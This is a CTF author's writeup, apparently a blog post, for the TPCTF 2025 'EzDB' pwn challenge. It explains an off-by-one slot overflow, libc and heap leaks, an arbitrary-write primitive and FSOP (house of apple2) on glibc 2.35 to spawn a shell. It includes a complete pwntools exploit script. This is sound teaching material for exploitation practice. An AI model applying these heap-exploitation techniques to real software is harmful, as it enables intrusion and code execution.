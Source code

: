 ```yaml
---
date: 2025-03-09 10:21:56
layout: post
title: TPCTF 2025 EzDB Author's Writeup
subtitle: 
description: >-
    Had given an arbituary write primitive... So be satisfied, not a difficult problem
image: >-
  /assets/img/uploads/rainy_street.jpg
optimized_image: >-
  /assets/img/uploads/rainy_street.jpg
category: ctf
tags:
  - pwn
  - tpctf 2025
  - heap exploitation
author: rosayxy
paginate: true
---
```

Rosayxy is the author of the TPCTF pwn challenge of EzDB, here is the writeup.     

## overview
This challenge is mainly inspired by the DB course of THU CST. Some resources of the course is [here](https://github.com/thu-db)    

This challenge implements a table page to store stuff, with such basic functionaliries as creating and removing a page, creating and editing entries in the page and such.     

## vulnerability
At function `TablePage::InsertRecord`, it checks the following condition `TablePage::GetFreeSpaceSize(this) < (unsigned __int64)(Size + 4LL)`, whereas the `TablePage::GetFreeSpaceSize` is defined as below   
```c
__int64 __fastcall TablePage::GetFreeSpaceSize(TablePage *this)
{
  return *((_QWORD *)this + 2) - *((_QWORD *)this + 1) + 1LL;
}
```
Actually, in the source code `*((_QWORD *)this + 2)`, `*((_QWORD *)this + 1)` are marked respectively as the higher and lower pointer of this page. We see its intialization below:    

```c
TablePage *__fastcall TablePage::Init(TablePage *this)
{
  TablePage *result; // rax

  *(_QWORD *)this = malloc(0x400uLL);
  *((_QWORD *)this + 1) = *(_QWORD *)this;
  *((_QWORD *)this + 2) = *(_QWORD *)this + 0x400LL;
  result = this;
  *((_QWORD *)this + 3) = *(_QWORD *)this;
  return result;
}
```
So we get to know the GetFreeSize should be returning `*((_QWORD *)this + 2) - *((_QWORD *)this + 1)`. When we have `TablePage::GetFreeSpaceSize(this) == (unsigned __int64)(Size + 4LL)`(the 4 is the slot size here), we have an overflow into the highest byte of the newest slot, which is defined as below in the source code    
```c
struct Slot{
    unsigned short offset;
    unsigned short size;
};
```
So we can modify the size into a large value of the newest slot. This gives us a heap oob read & write with a big-enough-for-everything offset using the `TablePage::EditRecord` and `TablePage::GetRecord` functions.    

## leak
We can stuff 7 pages into tcache bin first, when we free the 8th page, it goes into the unsorted bin and the fd and bk pointers are libc-related addresses. We can leak the libc base address from it.    
The TablePage object's page_, lower_, upper_ pointers are all heap addresses. We can leak the heap base address here.    

## exploit
### convert to arbituary write
We can convert a heap-arbituary-write primitive to an arbituary-write primitive by editing the upper_ pointer of a TablePage object to an arbituary address plus some offset. Then we can use `TablePage::InsertRecord` function to write the content to the arbituary address.    

### FSOP
Because it is glibc-2.35, we choose to write _IO_list_all to a heap address and construct a fake IO_file object at the address.     
The construct the fake IO_file using the idea of [house of apple2](https://bbs.kanxue.com/thread-273832.htm), then we return from the main function to trigger the FSOP, and guess what? We get the shell!    

## exp
Note: I was having a fascinating Shakespeare elective course and multitasking when writing the exp. At first, I didn't realize that the overflow in the page would overflow into the high byte rather than the low byte of the slot's size, so some parts of the exp might be a bit messy. My apologies :(     

```py
from pwn import*
context(log_level='debug',arch='amd64',os='linux')
p = process("./db")
# p = remote("61.147.171.105",52702)
libc = ELF("./libc.so.6")
def create_table(idx):
    p.recvuntil(">>> ")
    p.sendline("1")
    p.recvuntil("Index: ")
    p.sendline(str(idx))

def remove_table(idx):
    p.recvuntil(">>> ")
    p.sendline("2")
    p.recvuntil("Index: ")
    p.sendline(str(idx))

def insert_record(idx,len,content):
    p.recvuntil(">>> ")
    p.sendline("3")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Length: ")
    p.sendline(str(len))
    p.recvuntil("Varchar: ")
    p.send(content)

def get_record(idx,slot_id):
    p.recvuntil(">>> ")
    p.sendline("4")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Slot ID: ")
    p.sendline(str(slot_id))

def edit_record(idx,slot_id,len,content):
    p.recvuntil(">>> ")
    p.sendline("5")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Slot ID: ")
    p.sendline(str(slot_id))
    p.recvuntil("Length: ")
    p.sendline(str(len))
    p.recvuntil("Varchar: ")
    p.send(content)

# leak libc first
# 整8个塞 tcache 里面吧
for i in range(9):
    create_table(i)
for i in range(203):
    insert_record(0,1,"A")
#insert vuln record
insert_record(0,6,b"\x02"*6)
for i in range(8):
    remove_table(8-i)

get_record(0,203)
p.recvline()
leaks = p.recv(0x140)
# 0x1d 0x106
heap_leak = u64(leaks[0xf2:0xf2 + 8])
print(hex(heap_leak))
libc_leak = u64(leaks[0x11a:(0x11a + 8)])
print(hex(libc_leak))
heap_base = heap_leak - 0x12320
# 0x7fbd726c7ce0 - 0x7fbd724ad000
libc_base = libc_leak - 0x21ace0
print(hex(heap_base))
print(hex(libc_base))
# 把所有堆块都占住 然后改 page_ 指针
for i in range(8):
    create_table(i+1)
# 占一个堆块写 fake IO_file
fake_io_addr = heap_base + 0x12730 +0x430 - 0xf0 # TODO
system_addr=libc_base+libc.sym["system"]
fake_io_file=b"  sh;".ljust(0x8,b"\x00") 
fake_io_file+=p64(0)*3+p64(1)+p64(2)
fake_io_file=fake_io_file.ljust(0x30,b"\x00")
fake_io_file+=p64(0)
fake_io_file=fake_io_file.ljust(0x68,b"\x00")
fake_io_file+=p64(system_addr)
fake_io_file=fake_io_file.ljust(0x88,b"\x00")
fake_io_file+=p64(libc_base+0x21ca60) # lock
fake_io_file=fake_io_file.ljust(0xa0,b"\x00")
fake_io_file+=p64(fake_io_addr)
fake_io_file=fake_io_file.ljust(0xd8,b"\x00")
fake_io_file+=p64(0x216f40+libc_base) # 使得可以调用 _IO_wfile_overflow
fake_io_file+=p64(fake_io_addr)+p64(0) # 0xf0
# 直接溢出改 page_ 指针
insert_record(1,0xf0,fake_io_file)

payload = b"\x02"*6+b"a"*203 + p64(0)+p64(0x31)+p64(heap_base + 0x12320)*2+p64(libc_base + libc.sym["_IO_list_all"]+0x8)+p64(heap_base + 0x12320)
edit_record(0,203,0x140,payload)
insert_record(8,0x8,p64(fake_io_addr))

# trigger!
p.recvuntil(">>> ")
p.sendline("6")

p.interactive()
```

## conclusion
Thank everyone for participating in the TPCTF game! Spring is coming and hope you have a nice time!    
[Here](https://github.com/Rosayxy/EzDB-SourceCode-TPCTF2025/tree/main) is the source code   